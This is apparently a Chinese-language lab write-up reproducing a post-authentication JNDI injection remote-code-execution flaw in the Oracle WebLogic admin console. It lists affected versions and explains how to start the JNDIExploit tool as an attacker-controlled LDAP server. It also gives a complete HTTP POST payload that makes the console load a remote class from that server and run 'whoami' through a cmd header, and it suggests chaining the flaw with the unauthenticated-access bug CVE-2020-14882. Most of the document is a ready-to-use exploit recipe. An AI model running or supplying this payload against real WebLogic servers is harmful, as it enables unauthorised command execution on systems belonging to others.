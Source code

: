 # 0x00 软件介绍
Oracle WebLogic：一款流行的JAVA应用服务器

# 0x01 复现环境
复现环境：本地环境 win10 1909  
复现版本：WebLogic v12.2.1.4.0  
环境搭建：  
参考https://mp.weixin.qq.com/s/NL9o7MVG8j8zikeGUfTsVA  
中的环境搭建部分

# 0x02 利用条件
需要登陆WebLogic控制台

# 0x03 影响版本
10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0 and 14.1.1.0.0

# 0x04 漏洞复现
攻击环境：kali x64  
下载JNDIExploit：https://github.com/feihong-cs/JNDIExploit/releases/download/v.1.11/JNDIExploit.v1.11.zip  
启动JNDIExploit：java -jar ./JNDIExploit-v1.11.jar -i 192.168.1.5#其中192.168.1.5为本机IP  
登录WebLogic控制台  
再次访问WebLogic控制台，burp抓包，替换为如下payload
```
POST /console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle(%22ldap://192.168.1;5:1389/Basic/WeblogicEcho;AdminServer%22) HTTP/1.1
Host: 192.168.1.7:7001
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
cmd:whoami
Referer: http://192.168.1.7:7001/console/login/LoginForm.jsp
Connection: close
Cookie: ADMINCONSOLESESSION=-XjUGJChfEBvqXqZBo748vnBGr895IIDGF5cmnoR9HkR_uY8Hrfd!-1181708775
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```
如下图，可以看到成功执行命令whoami  
![image](./0.png)

此漏洞可配合Weblogic未授权访问漏洞（CVE-2020-14882）使用

# 0x05 批量脚本
无

# 0x06 参考链接
https://www.o2oxy.cn/3019.html
